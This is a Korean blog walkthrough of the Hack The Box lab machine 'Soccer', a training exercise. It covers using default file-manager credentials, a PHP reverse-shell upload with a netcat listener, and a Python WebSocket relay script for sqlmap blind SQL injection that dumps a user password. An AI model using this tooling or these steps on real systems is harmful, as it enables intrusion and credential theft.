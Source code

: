 ```yaml
---
date: '2023-03-03'
before : '2023-03-02'
after : '2023-03-04'
title: 'Hack The Box Machine : Soccer'
categories: ['C-SEC', 'KOR', 'webhack']
summary: 'HTB 2023 Machine 중 하나인 Soccer의 풀이'
thumbnail: './C_Sec.jpg'
---
```


### 0. 오늘의 문제 소개

![projectManage](../contentImages/Soccer.png)

2023년 4월 기준 HTB Active Easy로 레이팅 되어있는 머신 중 하나인 Soccer의 풀이를 해 보았다. 하지만 말이 Easy지 레이팅 지표를 보면 Medium에 가까워서 그렇게 쉽진 않았다. 한 두시간정도 걸린 것 같다.


### 1. Information Gathering


일단 nmap 스캔부터 돌려보자.

![nmap](../contentImages/soccer/1.png)

특이점은 없지만 맨 밑에 처음 보는 희안한 포트가 (9091) 열려있었는데, 이건 나중에 Privilege Escalation 할 때 필요한 거였다. 일단은 http가 열려있으니 /etc/hosts에 추가하고 접속해보자.

![soccerhtb](../contentImages/soccer/2.png)

보기에 별 다를 것 없는 사이트이다. 그럼 정석대로 Directory Fuzzing을 해서 서브다이렉토리가 존재하나 확인해보자.

![fuzzer](../contentImages/soccer/3.png)

예상하긴 했지만 tiny라는 희안한 서브다이렉토리가 존재한다. 바로 들어가보자.

### 2. Gaining Initial Foothold

![tiny](../contentImages/soccer/4.png)

이런 로그인 창이 뜨는데, 밑에 Copyright를 눌러보니 이 플러그인 제작자의 홈페이지가 뜬다.

![copyright](../contentImages/soccer/5.png)

여길 이곳저곳 탐색하다보니, 이 플러그인의 default 유저이름/암호가 admin:admin@123이란 것을 알 수 있었다. 실제 Pentest에선 모르지만, 보통 CTF에선 이런 정보가 보이면 그 크레덴셜이 유용한 경우가 많은 것 같다. 역시나 로그인이 된다. 로그인을 하니

![uploadPage](../contentImages/soccer/6.png)

이런 파일 업로드용 홈페이지가 뜬다. 아마 100프로로 File Upload관련 취약점이 존재할 것이다. 저기 tiny 폴더로 들어가서 reverse shell 업로드를 진행해보자. reverse shell은 다음과 같은 코드를 사용했다.

```

```
![uploading](../contentImages/soccer/7.png)

업로드를 하고, nc -lvnp로 내 서버를 켠 다음 파일이 업로드된 경로로 접속해보자. 경로가 /tiny/내_파일_이름.php라고 친절하게 알려준다.

![revshell](../contentImages/soccer/8.png)

성공적으로 쉘이 나왔다. 하지만 이게 끝은 아니다. 아직 유저 권한도 얻지 못한 듯 하다. 시스템을 열심히 탐색해보자... 

### 3. User Privilege

! 시스템을 탐색하다보니 (그냥 파일/경로 열어보기 노가다..) soc-player.soccer.htb라는 vhost가 존재하는 듯 하다. 접속해보니

![soc-player](../contentImages/soccer/9.png)

이런 페이지가 뜬다. 회원가입이 가능하니 얼른 가입하고 로그인을 해보자.

![logged-on](../contentImages/soccer/10.png)

이렇게 뭔가를 입력할 수 있는 화면이 뜨는데..? 이 부분이 좀 어려웠다. 페이지 소스를 확인해보니

![socket](../contentImages/soccer/11.png)

Web Socket으로 통신이 이루어진다는걸 확인할 수 있다. 저런 확인 시스템이 있는 걸 보니 일단 SQL Injection 관련인 것 같긴 한데... 구글링을 해보니 Web Socket Blind SQL Injection이 존재한다는걸 알 수 있었다. 


https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html


구글링 없이 해킹은 절대 무리란걸 다시한번 상기하며, 해당 블로그에 나와있는 파이썬 소켓 코드를 (middleware식으로 동작한다)내 컴퓨터에 작성한다. 물론 우리 상황에 맞게 살짝 코드를 바꾸긴 해야하지만 큰 틀에선 비슷하다.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv()
 
 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # JSON으로 만든다.
 data = '{"id":"%s"}' % message # 이 부분은 살짝 바뀐다.

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
   except IndexError:
    payload = False
    
   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

이렇게 하고 sqlmap을 실행시킨다.

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```

![sqlmap](../contentImages/soccer/12.png)

실행시켜보면 위와 같이 sql취약점을 발견할 수 있고, 그걸 바탕으로 db를 탐색하면 유저의 credential을 얻을 수 있다 :


1324 | player@player.htb | player   | PlayerOftheMatch2022


이제 ssl로 로그인을 해보고 ls를 때려보면...!

![user_exploit](../contentImages/soccer/13.png)

유저로 로그인을 할 수 있고, user.txt flag를 얻을 수 있다.

### 4. 마치며

사실 글이 이렇게 길어질 줄 몰랐다. 이거 절대 easy 아니다. 내 첫 Hack The Box pwn으로 이상한 걸 고른 것 같다. 다른 box들은 이렇게 어렵지 않던데... 여기까지가 유저 권한 취득이고, 루트 권한 취득은 좀 더 괴랄(?) 해진다. 


Root Privilege도 막 따 놓은 참이긴 하지만 내일 마저 스크린샷 찍고 정리해서 올려야지 (절대 귀찮은게 아니다.)

## Source

- Hack The Box 2023
- Me!


